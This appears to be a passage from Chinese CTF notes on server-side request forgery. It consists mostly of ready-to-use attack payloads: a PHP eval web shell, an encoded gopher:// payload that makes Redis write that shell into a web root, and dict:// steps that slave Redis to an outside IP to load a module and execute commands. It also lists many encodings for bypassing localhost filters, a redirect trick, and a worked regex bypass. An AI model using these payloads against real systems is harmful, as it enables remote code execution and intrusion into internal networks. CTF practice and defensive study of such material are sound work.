python2 gopherus.py --exploit redis
phpshell
<?php eval($_POST['cmd']);?>

```

`gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252428%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A`

1是密码

#### 主从复制 Redis

##### dict 协议分步解决

```text
  'dict://127.0.0.1:6379/info');
  'dict://127.0.0.1:6379/config:set:dir:/tmp'); //设置目录
  'dict://127.0.0.1:6379/config:get:dir'); //获取
  'dict://127.0.0.1:6379/config:set:dbfilename:exp.so');
  'dict://127.0.0.1:6379/slaveof:49.232.224.59:6379');
  'dict://127.0.0.1:6379/module:load:./exp.so'); //加载exp.so
  'dict://127.0.0.1:6379/system.exec:"env"'); //命令执行go
   

```

gopher一次解决：打开/tmp/redis，先运行得到payload，再python2运行server接受。

### http/s 协议：探测内网主机存活

```text
[file:///var/www/html/flag.php](file://var\www\html\flag.php)  ---看网页源代码

url=http://127.0.0.1/flag.php 

http://safe.taobao.com/ http://114.taobao.com/ http://wifi.aliyun.com/ http://imis.qq.com/ http://localhost.sec.qq.com/ http://ecd.tencent.com/ 

出来时127.0.0.1

url=http://2130706433/flag.php

url=http://sudo.cc/flag.php  dns解析

url=http://0177.0.0.1/flag.php

十六进制

url=http://0x7F.0.0.1/flag.php

八进制

url=http://0177.0.0.1/flag.php

10 进制整数格式

url=http://2130706433/flag.php

16 进制整数格式，还是上面那个网站转换记得前缀0x

url=http://0x7F000001/flag.php

还有一种特殊的省略模式

127.0.0.1写成127.1

用CIDR绕过localhost

url=http://127.127.127.127/flag.php

还有很多方式不想多写了

url=http://0/flag.php

url=http://0.0.0.0/flag.php

http://nginx：80/flag.php

http://＠nginx/flag.php

http://nginx／flag.php

长度小于5
http://127.1／flag.php
http://0/flag.php

```

在自己的vps上写一个php文件，内容为

<?php  header("Location:http://127.0.0.1/flag.php");?>

然后POST传参

例题1：

代码中正则的意思是url要以`http://ctf.`开头，且以`show`结尾

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
} 

```

那么可以构造一下绕过

```text
url=http://ctf.@127.0.0.1/flag.php?show

```

此处`ctf.`将作为账号登录127.0.0.1，并且向flag.php传一个`show参数`来绕过

---

